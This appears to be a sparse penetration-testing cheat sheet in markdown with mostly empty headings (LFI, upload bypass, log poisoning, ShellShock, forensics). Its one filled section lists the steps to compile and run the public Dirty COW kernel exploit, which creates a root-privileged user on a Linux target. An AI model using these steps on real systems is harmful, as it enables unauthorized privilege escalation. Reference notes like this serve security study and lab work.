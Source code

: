 ## MySQL

# Known Vulnerabilities
## Local File Inclusion (LFI)
## Upload Bypass
## Log Poisoning
## ShellShock
## Dirtyc0w Kernel Exploit (Linux)
See https://github.com/firefart/dirtycow
1. Transfer .c file to target
2. compile it with ``gcc -pthread dirty.c -o dirty -lcrypt``
3. execute the binary ``./dirty newpassword``
4. user ``firefart`` is created with root privileges

# Forensic
## Memory Analysis
## Reverse Engineering




